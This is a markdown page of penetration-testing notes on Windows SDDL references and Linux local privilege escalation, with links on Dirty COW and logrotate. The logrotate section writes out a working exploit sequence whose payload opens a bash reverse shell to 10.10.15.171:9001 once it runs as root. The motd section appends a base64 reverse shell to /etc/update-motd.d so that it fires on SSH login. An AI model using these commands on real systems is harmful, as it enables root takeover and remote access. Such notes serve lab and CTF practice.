 
#### SDDL

1. [habr.com/ru/company/pm/blog/442662/](https://habr.com/ru/company/pm/blog/442662/)
2. [0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html](https://0xdf.gitlab.io/2020/01/27/digging-into-psexec-with-htb-nest.html)




## LPE

* [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)



### Linux


#### Dirty COW

* [dirtycow.ninja/](https://dirtycow.ninja/)
* [github.com/dirtycow/dirtycow.github.io/wiki/PoCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs)
* [github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)


#### logrotate

whotwagner/logrotten:

```
$ curl https://github.com/whotwagner/logrotten/raw/master/logrotten.c > lr.c
$ gcc lr.c -o lr

$ cat payloadfile
if [ `id -u` -eq 0 ]; then (bash -c 'bash -i >& /dev/tcp/10.10.15.171/9001 0>&1' &); fi

$ ./lr -p ./payload -t /home/snovvcrash/backups/access.log -d
```

* [github.com/whotwagner/logrotten](https://github.com/whotwagner/logrotten)
* [tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges](https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges)
* [tech.feedyourhead.at/content/details-of-a-logrotate-race-condition](https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition)
* [popsul.ru/blog/2013/01/post-42.html](https://popsul.ru/blog/2013/01/post-42.html)


#### motd

`/etc/update-motd.d/`:

```
root@kali:$ shellpop --reverse --number 8 -H 127.0.0.1 -P 1337 --base64
root@kali:$ echo '<BASE64_SHELL>' >> 00-header
* Fire up new SSH session and catch the reverse shell
```


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 space before)